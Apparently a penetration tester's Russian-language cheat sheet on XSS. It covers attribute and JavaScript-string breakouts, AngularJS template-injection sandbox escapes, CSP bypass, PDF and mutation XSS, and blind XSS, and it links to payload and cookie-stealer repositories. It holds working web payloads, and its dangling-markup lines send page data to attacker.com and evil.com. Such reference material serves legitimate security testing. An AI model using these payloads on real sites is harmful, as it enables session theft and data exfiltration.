 ***
# Репозитории с XSS payloads

[Tiny XSS Payloads](https://tinyxss.terjanq.me/)
[PayloadsAllTheThings/XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#cross-site-scripting)
[kensworth/cookie-stealer](https://github.com/kensworth/cookie-stealer)

***
# Навигация

> [[XSS#XSS в HTML атрибутах|1. XSS в HTML атрибутах]]
> [[XSS### XSS into JavaScript|2. XSS into JavaScript]]
> [[XSS#CSTI - Client side template injection|3. CSTI - Client side template injection]]
> [[XSS#Dangling Markup|4. Dangling Markup]]
> [[XSS#**CSP**|5. CSP]]
> [[XSS#Self-XSS|6. Self-XSS ]]
> [[XSS#PDF-XSS|7. PDF-XSS]]
> [[XSS#Mutation XSS|8. Mutation XSS]]
> [[XSS#Bliend XSS|9. Bliend XSS]]
***

## Формы отправки запросов JS

``` html
<script>
	fetch('https://site.com/', {method: "GET"}) // обычный GET запрос
</script>
```
``` html
<script>
	const req = new XMLHttpRequest()
	req.open("GET", "https://site.com/")
	req.send() // обычный GET запрос
</script>
```

---

# XSS в HTML атрибутах

[portswigger.net/XSS/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
1. Через intruder проверить не заблокированные теги и атрибуты.
2. Если ввод попадает в href, можно использовать следующую конструкцию `javascript:alert(1)`. Выйдет следующее: 
`<a href="javascript:alert(document.domain)">`
3. Проверь атрибут `accesskey`. Пример: 
`https://web-site/?%27accesskey=%27x%27onclick=%27alert(1)`; где `%27` = `'`. 
Скрипт сработает при нажатии:
- On Windows: `ALT+SHIFT+X` / `ALT+X`
- On MacOS: `CTRL+ALT+X`
- On Linux: `Alt+X`
# XSS into JavaScript
Если ввод попадает в скрипт внутри HTML:
1. Попытаться закрыть тег предыдущего скрипта и открыть новый: `</script><img src=1 onerror=alert(document.domain)>`
2. Если ввод находится в литералах : \` \`, ' ', " ", стоит попытаться выйти из них:
	```javascript
	'-alert(document.domain)-'
	';alert(document.domain)//
	```
	
	2.1. Если литералы экранируются, стоит проверить экранацию косой черты: \\ : ``\';alert(document.domain)//``
	2.2. Если косая черта экранируется, можно закодировать литерал, скорее всего в HTML кодировку: 
	`&apos;-alert(document.domain)-&apos;`
	2.3. Использовать конструкцию \${}: `${alert(document.domain)}`
1. Если запрещены круглые скобки, можно передавать аргументы в функции через конструкцию: `onerror=alert;throw 1`

# CSTI - Client side template injection
[XSS in Angular.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)
**CSTI** - тип уязвимости, возникающий, когда разработчик позволяет пользовательскому вводу определять выражения шаблонов на веб-странице, что позволяет злоумышленнику внедрять вредоносные выражения шаблонов (которые являются упрощённым JavaScript) для эксплуатации веб-приложения. Это происходит в браузере и HTML, аналогично тому, как работает межсайтовый скриптинг (XSS). Некоторые JS фреймворки, такие как AngularJS, имеют песочницу, которая предотвращает использование определённых объектов, к которым разработчик не имел права доступа. Чтобы злоумышленник мог эксплуатировать это, ему нужно найти способ "выбраться" из песочницы, что означает получение доступа к областям, таким как объект документа, чтобы проэксплуатировать веб-приложение.

>Также иногда с помощью CSTI могут обходить CSP, допустим он разрешает погружать скрипты только с [some.com](http://some.com/), вы идёте туда, находите там Angular.js файл, а дальше подключаете его к странице, внедряете директиву ng-app и вставляете пэйлоад:

`<script src='<https://some.com/angular.min.js>'></script><div ng-app>{{$on.constructor.constructor('alert(document.domain)')()}}`

Для эксплуатации CSTI в Angular без песочницы используют следующую полезную нагрузку:

`{{$on.constructor('alert(1)')()}}`
# Dangling Markup
Кража данных посредством эксплуатации пэйлоада с открывающейся `'`, но не закрывая её:
[Dangling Markup - HTML scriptless injection | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)
```html 
<img src='http://attacker.com/log.php?HTML=
```
```html
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
```
```html
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```
# **CSP**
[Content Security Policy (CSP) Bypass | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

<div style="margin:5px; padding:5px; background-color: #E56D3D"><b>CSP (Content Security Policy)</b> - позволяет определять белые списки источников для подключения JavaScript, стилей, изображений, фреймов, создания соединений. </div>

<div style="margin:5px; padding:5px; background-color: #E56D3D">Также CSP может регулировать возможность исполнения inline-скриптов, возможность подключения текущей страницы во фрейме и т. д.</div>

CSP — это механизм безопасности браузера, целью которого является смягчение XSS и некоторых других атак. Он работает путем ограничения ресурсов (таких как скрипты и изображения), которые может загружать страница, и ограничения возможности включения страницы в рамки других страниц. 

Чтобы включить CSP, ответ должен включать заголовок `Content-Security-Policy` со значением, содержащим политику. Сама политика состоит из одной или нескольких директив, разделенных точкой с запятой.
## CSP директивы 

[CSP Evaluator (csp-evaluator.withgoogle.com)](https://csp-evaluator.withgoogle.com/) - сервис для проверки на безопасность веб-страницы по её CSP тегам. 
![[CSP директивы.png]]

# Self-XSS
**Self-XSS** - это форма атаки, при которой жертва атаки ненамеренно запускает вредоносный код в своём собственном браузере, что приводит к раскрытию личной информации атакующему. Это достигается путём **обмана пользователей в копировании и вставке вредоносного контента в консоль веб-разработчика** их браузера. В обычных условиях атакующий публикует сообщение, утверждая, что копирование и выполнение определённого кода позволит пользователю получить виртуальные награды или взломанный сайт. На самом деле код позволяет атакующему захватить учётную запись жертвы. 

# PDF-XSS
Если браузер использует PDF, можно исполнить JS следующим образом:
```url
https://sute/file.pdf#any=javascript:alert(1)
```
# Mutation XSS
**Mutation XSS (mxss)** - тип атаки на веб-приложение, который происходит, когда ненадёжные данные обрабатываются в контексте свойства DOM 'innerHTML' и изменяются браузером. Этот  тип атаки особенно опасен, поскольку он может обойти большинство существующих фильтров и санитайзеров XSS, позволяя вредоносному коду выполняться в браузере пользователя. Примером может служить ситуация, когда сервер корректно экранирует входные данные, но не предотвращает их декодирование браузером в вредоносный скрипт из-за сложного поведения браузера, который переинтерпретирует контент. 
Другими словами браузер может самостоятельно не только декодировать символы, но и дописывать HTML теги. Т.е если подать на вход:
```javascript
<template><p title="</template><img src=x onerror=alert(1)>">
```
То браузер может переписать это в:
```javascript
<template>
	<p title="</template><img src=x onerror=alert(1)>"></p>
</template>
```
# Bliend XSS
**Bliend XSS** - тип уязвимости, при котором вредоносный код внедряется в веб-приложение и сохраняется на сервере, но его выполнение происходит в другом месте, недоступном для атакующего. 
Можно поднять у себя следующую службу: [XSS Hanter Express](https://github.com/mandatoryprogrammer/xsshunter-express), они служит отличный инструментом для эксплуатации **bliend XSS**.
